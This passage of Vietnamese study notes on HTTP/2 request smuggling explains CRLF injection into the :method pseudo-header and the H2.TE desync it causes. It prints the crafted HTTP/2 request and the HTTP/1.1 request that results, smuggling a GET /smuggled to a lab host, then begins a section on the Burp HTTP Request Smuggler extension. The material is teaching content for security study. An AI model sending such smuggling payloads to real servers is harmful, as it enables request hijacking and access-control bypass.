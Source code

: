 Điều này cũng tạo ra lỗ hổng **H2.TE**, vì header `Transfer-Encoding` có độ ưu tiên cao hơn `Content-Length` trong HTTP/1.1.

### 3. **Request Line Injection (Chèn Dòng Yêu Cầu)**

Trong HTTP/2, pseudo-headers có thể được xử lý đặc biệt. Nếu reverse proxy không kiểm tra các pseudo-headers một cách chính xác trước khi chuyển đổi yêu cầu sang HTTP/1.1, kẻ tấn công có thể chèn các ký tự CRLF vào trong pseudo-header. Ví dụ:

```http
:method POST / HTTP/1.1\r\nTransfer-Encoding: chunked\r\nDummy: asd
:path /
:authority http2.htb
:scheme http
0
GET /smuggled HTTP/1.1
Host: http2.htb
```

Trong trường hợp này, header `:method POST` trong HTTP/2 chứa ký tự CRLF, tạo ra sự phân tách không đúng giữa các phần trong dòng yêu cầu khi chuyển sang HTTP/1.1:

```http
POST / HTTP/1.1
Transfer-Encoding: chunked
Dummy: asd / HTTP/1.1
Host: http2.htb
Content-Length: 48
0
GET /smuggled HTTP/1.1
Host: http2.htb
```

Như trong các ví dụ trước, điều này dẫn đến lỗ hổng **H2.TE** do sự ưu tiên của `Transfer-Encoding` so với `Content-Length`.

---
# 18. Công cụ & ngăn chặn hạ cấp HTTP/2

Sau khi đã thảo luận về cách khai thác các lỗ hổng HTTP/2 liên quan đến request smuggling, chúng ta sẽ khám phá các công cụ có thể giúp nhận diện và khai thác các lỗ hổng này. Cuối cùng, chúng ta cũng sẽ thảo luận về cách bảo vệ khỏi các lỗ hổng request smuggling trong HTTP/2.

### Công Cụ Hỗ Trợ

Một trong những công cụ hỗ trợ hiệu quả khi tìm kiếm các lỗ hổng liên quan đến request smuggling trong HTTP/2 là **Burp Extension HTTP Request Smuggler**. Công cụ này có thể giúp tự động phát hiện các lỗ hổng và hỗ trợ kiểm tra các request HTTP/2 để tìm kiếm những vấn đề tiềm ẩn.

**Quy trình sử dụng Burp Extension HTTP Request Smuggler**:

1. **Gửi Request HTTP/2 đến Burp Repeater**: 
   Ví dụ, một request như sau:
   ```
   GET /index.php?param1=HelloWorld HTTP/2
   Host: http2.htb
   ```
